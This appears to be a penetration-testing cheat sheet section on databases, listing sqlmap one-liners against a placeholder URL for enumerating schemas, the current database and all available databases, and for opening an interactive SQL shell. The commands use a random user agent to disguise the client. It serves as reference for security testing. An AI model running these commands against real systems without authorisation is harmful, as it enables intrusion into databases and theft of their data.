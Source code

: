 # 03 - Databases

Search Tag: #sqlmap #enumeration-and-discovery

## 3.1 - Automated

- Enumerate database schema.

```
$ sqlmap -u <URL> --random-agent --schema
```

- Enumerate database schema yet exclude system databases.

```
$ sqlmap -u <URL> --random-agent --schema --exclude-sysdbs
```

- Enumerate current database.

```
$ sqlmap -u <URL> --random-agent --current-db
```

- Enumerate available databases.

```
$ sqlmap -u <URL> --random-agent --dbs
```

## 3.2 - Manual

```
$ sqlmap -u <URL> --random-agent --sql-shell

sql-shell> SHOW DATABASES()
```